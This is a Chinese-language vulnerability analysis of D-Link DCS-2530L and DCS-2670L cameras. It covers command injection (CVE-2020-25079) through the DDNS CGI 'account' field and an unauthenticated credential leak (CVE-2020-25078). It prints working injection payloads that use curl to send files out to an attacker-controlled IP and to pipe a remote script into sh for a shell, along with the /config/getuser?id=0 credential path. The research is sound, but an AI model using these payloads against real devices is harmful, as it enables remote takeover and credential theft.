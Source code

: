 >yk2eR0@HATLAB

## 官网公告
[
Authenticated Command Injection and Unauthenticated Credential Disclosure](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10180)
## 影响范围

DCS-2530L v1.05.05 & older

DCS-2670L v2.02 & older
## 测试环境

设备厂商：D-Link
设备型号：D-Link DCS-2530L
设备版本：1.04

## 关键程序提取
由于公布的两个漏洞CVE-2020-25079 + CVE-2020-2507刚好一个敏感信息泄露,一个命令执行,刚好凑一套RCE.尝试使用命令执行dump下来关键二进制程序来分析.
### payload
由于注入无回显,所以用curl的方法让被测机器向我们的服务端发送数据来显示注入结果:在本地``nc -lvp 11451``
首先通过
``http://2remoteip/cgi-bin/ddns_enc.cgi?enable=1&hostname=qq&interval=24&servername=www.dlinkddns.com&provider=custom&account=;ls >a;curl%20-X%20PUT%201local ip:localport%20-T%20a;``来找命令执行的根目录.本地接收到请求:
![e1b923f15ae329ef1e0445d0b21a9360.png](1.png)
通过``;curl  local ip:localport|sh``来弹出无回显远程shell;
找出关键二进制程序在``execs/``中,通过服务端``nc -lvp 11451 >aHttpMain``,注入点``;curl%20-X%20PUT%20121.36.223.38:12668%20-T%20/execs/aHttpMain;``将aHttpMain提取出来



### CVE-2020-25079漏洞分析


漏洞点在aHttpMain,在处理ddns设置请求的函数中:
```c
  if ( !strcasecmp(s1, "www.dlinkddns.com") || !strcasecmp(s1, "www.dyn.com") )
  {
    if ( a5 )
    {
      if ( !*(_BYTE *)a5 )
        v12 = "NULL";
    }
    else
    {
      v12 = "NULL";
    }
    if ( a6 )
    {
      if ( !*(_BYTE *)a6 )
        v13 = "NULL";
    }
    else
    {
      v13 = "NULL";
    }
    snprintf(
      s,
      0x100u,
      "ez-ipupdate -i %s -S %s -u %s:%s -h %s -d -P 600 -M %u -F \"%s\"",
      (const char *)a1,
      "dyndns",
      v12,
      v13,
      (const char *)a4,
      3600 * a7,
      (const char *)a2);
    return system(s);
  }
```
程序通过调用ez-ipupdate来实现ddns的配置,对用户输入仅做了是否为空的判断,而没有进行任何**安全性检查**.
snprintf处未做处理直接进行拼接,拼接值传入system执行.
当用户输入account值为``;ls;``时函数将会执行``ez-ipupdate -i 
interface -S Host Name  -u ;ls;:%s -h %s -d -P 600 -M %u -F \"%s\"``在执行ez-ipupdate后将执行ls命令,成功实现命令注入.

### CVE-2020-25078:

并为路径在中途未做相应的访问控制，直接在摄像头的根目录加上 /config/getuser?id=0 路径，从这里窃取代码出设备的账户名和密码。


